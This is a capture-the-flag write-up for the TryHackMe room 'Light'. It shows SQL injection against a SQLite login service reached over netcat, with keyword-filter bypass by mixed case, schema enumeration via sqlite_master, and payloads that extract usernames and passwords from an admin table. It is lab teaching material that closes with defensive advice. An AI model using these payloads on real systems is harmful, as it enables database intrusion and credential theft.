




# Light

<p align="center">
  
</p>

> *Welcome to the Light database application!*

<br>

## ./overview

**Light** is a TryHackMe room focused on **SQL Injection (SQLi)** and basic database enumeration. The challenge demonstrates how unsanitized user input can alter the logic of SQL queries, allowing an attacker to retrieve sensitive information directly from the underlying database.

This document describes the reconnaissance, exploitation process, and security implications of the vulnerability.

<br>

## ./objective

* Identify the administrator account.
* Recover the administrator password.
* Capture the room flag.

<br>

## ./reconnaissance

The room description indicates that the service is available via **Netcat** on port **1337**.

```bash
nc MACHINE_IP 1337
```



The application presents a minimal authentication interface requesting a username.

Submitting the username:

> `smokey`

returns the associated password instead of authenticating the session, suggesting that user input is being incorporated directly into a database query. This behavior strongly indicates a potential SQL injection vulnerability.

<br>

## ./vulnerability_analysis

A classic SQL injection payload is tested first:

```sql
' OR 1=1 --
```

The application immediately rejects the request:

> *For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)*

This indicates that certain keywords and SQL comment sequences are filtered before the query is executed.

Removing the SQL comment produces a different result:

```sql
' OR 1=1
```

which returns:

> *Error: unrecognized token: "''' LIMIT 30"*

The error suggests an issue with unmatched quotation marks in the generated SQL statement.

Adjusting the payload resolves the syntax error:

```sql
' OR '1=1
```

The application now returns a password value:

> `tF8tj2o94WE4LKC`

Although this credential is not immediately useful, it confirms that SQL injection is possible.

<br>

## ./enumeration

The room name suggests that the backend database may be **SQLite**.

Attempting to retrieve the database version with:

```sql
' UNION SELECT sqlite_version() '
```

fails due to keyword filtering.

Using mixed-case keywords bypasses the filter:

```sql
' Union Select sqlite_version() '
```

The application responds with:

> `3.31.1`

confirming that the backend is running SQLite.

The database schema can now be enumerated through the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```



The output reveals the database structure, including the `admintable` table.

<br>

## ./data_extraction

Usernames can be retrieved with:

```sql
' Union Select group_concat(username) From admintable '
```



Passwords are extracted using:

```sql
' Union Select group_concat(password) From admintable '
```



The query returns the administrator credentials together with the room flag.

<br>

## ./flag

The extracted data contains the administrator username, password, and the room flag.

```text
flag{********}
```

<br>

## ./conclusion

This room demonstrates that SQL injection remains a critical vulnerability even when input filtering mechanisms are present.

The application attempts to block common payloads through simple keyword filtering, but these protections are easily bypassed using alternative syntax and capitalization. Once arbitrary SQL execution is achieved, database fingerprinting, schema enumeration, and sensitive data extraction become straightforward.

Proper parameterized queries and server-side input handling remain the most effective defenses against SQL injection attacks.

---

<p align="center">
  <sub>© 2026 0xf0xy • For educational purposes only.</sub>
</p>
